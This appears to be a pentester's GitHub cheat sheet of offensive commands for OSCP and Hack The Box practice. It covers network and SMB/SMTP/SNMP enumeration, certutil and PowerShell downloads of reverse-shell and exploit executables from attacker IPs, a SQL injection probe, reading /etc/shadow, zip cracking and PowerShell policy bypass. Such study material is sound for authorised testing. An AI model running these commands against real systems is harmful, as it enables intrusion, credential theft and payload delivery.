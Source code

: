 # Hacking-Cheatsheet
In this repo I collect all commands, links, techniques and tricks I found during my work as pentester, hacker, OSCP student and hack the box fan.

- [External Enumeration](#external-enumeration)
  - [OSINT](#osint)
  - [Port-Scanning](#port-scanning)
  - [SMB-Enumeration](#smb-enumeration)
  - [SMTP-Enumeration](#smtp-enumeration)
  - [SNMP-Enumeration](#snmp-enumeration)
- [File Transfer and File Downloads](#file-transfer-and-file-downloads)
  - [Windows](#windows)
  - [Python Webserver](#python-webserver)
- [Creating Exploits](#creating-exploits)
  - [Buffer Overflows](#buffer-overflows)
- [Local Enumeration](#local-enumeration)
  - [Local Linux Enumeration](#local-linux-enumeration)
  - [Local Windows Enumeration](#local-windows-enumeration)
- [Post Exploitation](#post-exploitation)
  - [Linux Post Exploitation](#linux-post-exploitation)
  - [Windows Post Exploitation](#windows-post-exploitation)


# External Enumeration

## OSINT
### Crawl words from website for passwordlist
```bash
cewl <domain> -m 6 -w words.txt
```

## Port-Scanning
Scan all ports with service detection
```bash
nmap -v -A -p- <Target-IP>
```

## SMB-Enumeration

### Enum4Linux
```bash
enum4linux -a <IP>
```

### rpcclient
```bash
rpcclient -U "" <Target IP>
```
enter empty password

Commands in rpcclient console:
- srvinfo: Identify OS Versions
- enumdomusers: List of Usernames on this server
- getdompwinfo: Displays SMB password policy

## SMTP-Enumeration
SMTP-Enumeration with netcat
```bash
for user in $(cat typical_usernames_SMTP_Enumeration.txt); do echo VRFY $user |nc -nv -w 1 <Target-IP> 25 2>/dev/null |grep ^"250";done
```

## SNMP-Enumeration

Enumerate set of IPs for different SNMP communities
```bash
onesixtyone -c community_names.txt -i ips.txt
```
examples for community names:
- public


Get list of running programs
```bash
snmpwalk -c public -v1 <Target-IP> 1.3.6.1.2.1.25.4.2.1.2
```

Get list of open ports
```bash
snmpwalk -c public -v1 <Target-IP> 1.3.6.1.2.1.6.13.1.3
```

Get list of installed software
```bash
snmpwalk -c public -v1 <Target-IP> 1.3.6.1.2.1.25.6.3.1.2
```


# File Transfer and File Downloads

## Windows
### Download files with certutil
```bash
certutil.exe -urlcache -f http://<ip>:<port>/<filename> <localfilename>
```
Example:
```bash
certutil.exe -urlcache -f http://10.10.14.37:8080/shell.exe reverse_shell.exe
```

### Downlaod files with Powershell
```cmd
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.30.5/exploit.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url, $file) >>wget.ps1
```

Execute File with: [Execute Powershell File, bypass all policies](#execute-powershell-file-bypass-all-policies)

## Python Webserver
Create webserver listening to port 8080 offering files from current working directory
```bash
python3 -m http.server 8080
```
#Exploiting

## SQL Injections

### Detect number of columns for UNION attack:
add a 
```SQL
ORDER BY 1--
```
statement to sql command.
Than increase number after ORDER BY until you receive a error => Value before is the correct number of columns for UNION statement.



## Creating Exploits with msfvenom

## Buffer Overflows

### Create unique pattern
Create a unique pattern to identify correct position for buffer overflow
```bash
/usr/share/metasploit-framework/tools/pattern_create.rb <# bytes>
```

# Local Enumeration

## Local Linux Enumeration

### System information/version
Show information about kernel and linux system
```bash
uname -a
```

Show linux version
```bash
cat /etc/issue
```

### Find local users
```bash
cat /etc/passwd
```

### Password hashes
```bash
cat /etc/shadow
```

### Find world writable files
```bash
find / -perm -2 ! -type l -ls 2>/dev/null
```

## Local Windows Enumeration

### Open Ports local
```cmd
netstat -an
```

### Check permission of executable
```bash
icacls <filename>
```

# Post Exploitation
## Linux Post Exploitation
### Create tty console with python
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```
```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

### Cracking encrypted zip-file
```bash
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' <zip-file-name>
```

## Windows Post Exploitation
### Execute Powershell file, bypass all policies
```cmd
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1
```

### RDP connection from Linux host to Windows target
```cmd
rdesktop -u <User> -p <Password> <Target-IP>
```
